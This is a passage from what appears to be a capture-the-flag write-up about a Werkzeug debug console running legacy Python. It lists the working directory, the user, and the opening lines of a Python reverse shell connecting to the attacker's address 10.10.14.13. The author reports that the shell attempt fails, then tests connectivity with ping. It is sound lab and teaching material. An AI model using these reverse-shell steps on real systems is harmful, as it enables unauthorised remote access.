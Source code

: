 It is running legacy Python:

![image-20200803062529999](https://0xdfimages.gitlab.io/img/image-20200803062529999.png)

The current directory is `/var/www` and has stuff referencing `shorty`:

```

>>> import os
>>> os.getcwd()
'/var/www'
>>> os.listdir('.')
['manage-shorty.py', 'testing', 'shorty']

```

The current shell is running as the werkzeug user:

```

>>> os.getlogin()
'werkzeug'

```

## Shell as werkzeug

### Failed Reverse Shell

As soon as I see code execution in this console, I’m looking to get a legit shell. I’ll start putting in the lines from a standard Python reverse shell:

```

>>> import os, pty, socket
>>> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>>> s.connect(('10.10.14.13',80))

```

When I hit enter on that last line, it just disappears and nothing comes back. Very strange. I tried to reload the console, but it just hung. My best guess here is that the connection is failing (remember I couldn’t access my own host through the Squid), and then the console program breaks waiting for it. Eventually the connection times out, and the console comes back.

Figuring it could be some bug in how Python is doing it, I tried a Bash shell with Python’s `os.system`, but got the same results.

I checked to see if I could `ping` myself with `tcpdump` running on my local box:

```

>>> os.system('ping -c1 10.10.14.13')
0

```
